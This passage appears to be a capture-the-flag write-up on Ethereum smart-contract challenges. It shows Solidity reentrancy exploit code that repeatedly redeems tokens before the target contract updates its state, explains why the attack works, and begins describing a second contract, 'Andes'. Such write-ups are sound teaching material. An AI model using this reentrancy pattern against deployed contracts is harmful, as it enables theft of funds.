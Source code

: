 ```solidity
    fallback() external payable {
        if (n < 11) {
            emit Fallback(msg.sender, "Fallback was called");
            n += 1;
            nile.deleteAccount();
            nile.createAccount();
            nile.redeem(99);
        } else {
            emit Fallback(msg.sender, "Fallback has ended");
        }
    }
}
```

A few things to note.  There are some variables, `nile` and `n`.
`nile` points to the deployment of the vulnerable contract, and `n`
records how many times the reentrancy was performed.  To perform the
attack we call `attack`, which creates the account and redeems 99
tokens.  Now, since `redeem` calls the fallback function of the
caller, we get to run the code in the `fallback()` method.

In the `fallback()` method we update the counter, delete the account,
create a new one and redeem another 99 tokens.  This works because the
state in the target contract actually hasn't been updated yet, so we
can just continue creating and redeeming tokens.

[This](https://goerli.etherscan.io/address/0x7083e0e27843e4df3558c546bd971b2d736d75d7)
series of transactions is proof that I was able to get the flag.
That's the magic of blockchain: [you can prove a heist happened!](https://etherscan.io/address/0x59abf3837fa962d6853b4cc0a19513aa031fd32b)

## Andes
### The problem
> Sometimes the house wins. Sometimes you both win. Note: the token
> must be right-padded to 64 bytes if using Remix and passing as a
> function parameter.

Bah, this smart contract is kind of long.  Let's take it piece by
piece.

There's a map of `designators` and `balances`, and some special
address called a `selector`, along with a private variable `nextVal`
and an 8 by 8 array of `bids`.

```solidity
contract Andes {
    // designators can designate an address to be the next random
    // number selector
    mapping (address => bool) designators;
    mapping (address => uint) balances;

    address selector;
    uint8 private nextVal;
    address[8][8] bids;

    event Registered(address, uint);
    event RoundFinished(address);
    event GetFlag(bytes32);
```
